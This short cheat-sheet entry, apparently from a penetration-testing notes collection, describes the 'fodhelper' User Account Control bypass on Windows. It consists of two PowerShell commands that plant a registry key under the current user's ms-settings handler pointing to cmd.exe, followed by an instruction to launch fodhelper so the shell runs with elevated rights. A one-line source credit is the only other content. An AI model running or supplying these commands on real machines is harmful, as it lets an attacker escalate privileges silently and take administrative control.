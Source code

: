 # UAC Bypass

### Fodhelper

```text
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value cmd.exe -Force
New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
```

Then type fodhelper in cmd \( [Source ](https://twitter.com/xxByte/status/1381978562643824644)\).


